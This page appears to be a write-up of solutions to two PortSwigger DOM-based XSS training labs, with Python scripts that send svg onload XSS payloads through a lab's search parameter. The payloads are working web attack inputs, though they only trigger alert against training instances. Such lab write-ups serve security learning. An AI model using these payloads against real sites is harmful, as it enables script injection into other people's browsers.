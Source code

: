 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab: DOM XSS in `document.write` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function_

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function._

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```
